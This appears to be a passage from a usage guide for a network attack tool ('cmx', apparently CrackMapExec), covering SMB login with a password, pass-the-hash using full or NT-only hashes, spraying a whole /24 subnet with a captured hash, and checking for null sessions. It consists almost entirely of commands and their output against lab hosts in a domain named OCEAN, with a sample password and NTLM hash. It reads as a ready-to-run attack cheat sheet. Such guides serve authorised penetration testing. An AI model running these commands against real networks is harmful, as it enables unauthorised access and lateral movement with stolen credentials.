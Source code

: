 ```
Aug.20.19 14:38:15  SMB         IP:PORT  HOSTNAME  [+] DOMAIN\username:password (Pwn3d!) 
```

------------------------------------------------------------------------
### User with Password

```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23

Aug.20.19 14:42:43  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:42:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
```

------------------------------------------------------------------------
### User with Hash 

After obtaining credentials such as  
	agrande:1002:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::  
you can use both the full hash or just the nt hash (second half)  
```
#~ cmx smb 10.10.33.123 -u username -H 'LM:NT'
#~ cmx smb 10.10.33.123 -u username -H 'NTHASH'
```
Spray an entire /24 subnet with a hash  
```
#~ cmx smb 10.10.33.0/24 -u agrande -H '13b29964cc2480b4ef454c59562e675c'
#~ cmx smb 10.10.33.0/24 -u agrande -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

If multiple domains are in use, you may need to specify the target domain using -d  
For example authenticating to the domain labnet.com (using all caps seems to be more reliable)  
```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 -d LABNET
```

------------------------------------------------------------------------
### Null Sessions

One interesting use-case is checking for null sessions over smb.  
Pass an empty user/password strings to the command.   
The [+] results indicate a success. 
```
#~ cmx smb 10.10.33.120-127 -u '' -p '' 

Aug.20.19 12:20:15  SMB         10.10.33.122:445  10.10.33.122 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 12:20:15  SMB         10.10.33.121:445  10.10.33.121 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 12:20:15  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 12:20:15  SMB         10.10.33.122:445  10.10.33.122 [-] OCEAN\: STATUS_ACCESS_DENIED 
Aug.20.19 12:20:15  SMB         10.10.33.121:445  10.10.33.121 [+] OCEAN\: 
Aug.20.19 12:20:15  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 12:20:15  SMB         10.10.33.125:445  10.10.33.125 [*] Windows 10.0 Build 17763 x64 (domain:OCEAN) (signing:False) (SMBv:3.0)
Aug.20.19 12:20:15  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\: 
Aug.20.19 12:20:15  SMB         10.10.33.125:445  10.10.33.125 [-] OCEAN\: STATUS_ACCESS_DENIED 
Aug.20.19 12:20:15  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\: 
Aug.20.19 12:20:21         [!] Could not connect to 10.10.33.127, no route to host. Can you ping it? [!]
Aug.20.19 12:20:21         [!] Could not connect to 10.10.33.126, no route to host. Can you ping it? [!]
```